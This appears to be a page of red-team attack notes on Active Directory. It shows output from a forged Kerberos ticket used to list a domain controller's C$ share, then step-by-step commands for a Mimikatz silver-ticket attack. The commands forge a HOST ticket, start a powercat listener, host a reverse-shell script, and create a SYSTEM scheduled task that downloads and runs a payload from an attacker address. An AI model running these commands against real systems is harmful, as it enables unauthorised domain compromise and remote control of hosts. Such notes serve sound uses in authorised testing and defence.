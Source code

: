 ```
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
        Start Time: 1/25/2021 6:25:53 (local)
        End Time:   1/23/2031 6:25:53 (local)
        Renew Time: 1/23/2031 6:25:53 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called:
PS C:\AD\Tools\tickets> ls \\dcorp-dc\c$

    Directory: \\dcorp-dc\c$

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       11/29/2019   1:32 AM                PerfLogs
d-r---        2/16/2019   9:14 PM                Program Files
d-----        7/16/2016   6:23 AM                Program Files (x86)
d-r---       12/14/2019   8:23 PM                Users
d-----        8/20/2020   2:05 AM                Windows
```

#### Tags

<pre>#!AD #!ActiveDirectory #!Windows #!PowerShell #!Mimikatz #!SilverTicket #!TGS #!Kerberos</pre>

### Attacks
## TTP #2 Mimikatz Silver Ticket - Command Execution (Invoke-Mimikatz, PowerShell)
	* Overview

#### Notes

* If you want command execution off of a silver ticket, try using the HOST service and creating a scheduled task that executes your payload.

#### Prerequisites

* A credential (hash, key) for an account to use when creating the TGS
    - You will need the appropriate credential for what the `HOST` service needs/is running as
* Domain SID
    - `Get-DomainSID` (PowerView)
* `powercat.ps1`
* Go ahead and host a copy of `Invoke-PowerShellTcp.ps1` that you've altered to include `Power -Reverse -IPAddress <attacker-ip> -Port <attacker-port>` at the end of the script so it will execute immediately and not drop to disk

* Creating and using ticket
    - `Invoke-Mimikatz -Command '"kerberos::golden /domain:<domain> /sid:<domain-SID> /target:<computer-name|FQDN> /service:host /rc4:<ntlm-hash> /user:<user-account> /ptt"'`
* Using saved ticket
    - `Invoke-Mimikatz -Command '"kerberos::ptt <ticket>"'`
* Confirm a ticket is loaded
    - `klist`
* Create a powercat listener
    - `powercat -v -l -p 443 -t 10000`
* Host your **altered** `Invoke-PowerShellTcp.ps1` payload
    - Can use something like HFS for this
* Create a `schtask` on the target system using the TGS you've created for the HOST service
    - `schtasks /create /S <target-system> /SC Weekly /RU "NT Authority\SYSTEM" /TN "<task-name>" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://<attacker-ip>:<attacker-port>/<payload>''')'"`
        + Correct quotation is quite important here
